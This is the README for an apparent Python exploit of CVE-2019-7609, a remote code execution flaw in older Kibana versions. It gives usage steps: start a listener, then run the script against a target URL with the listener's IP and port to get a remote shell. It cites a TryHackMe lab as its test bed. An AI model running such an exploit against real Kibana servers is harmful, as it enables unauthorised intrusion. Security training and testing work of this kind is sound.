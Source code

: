 # CVE-2019-7609

Exploit for CVE-2019-7609 written in `python3.6+` based on the [code by LandGrey](https://github.com/LandGrey/CVE-2019-7609).

> **CVE-2019-7609**: RCE on Kibana versions before 5.6.15 and 6.6.0 in the Timelion visualizer.

## Usage

1. Start a listener
2. Run the exploit with the target url (base url of the kiba server), the listener host address and listener port as arguments

```bash
./cve-2019-7609.py http://<target>:5601 <listener-ip> <listener-port>
```
3. Enjoy RCE

## Example

> Tested on the [Kiba room on TryHackme](https://tryhackme.com/room/kiba)

![Example](example.png)

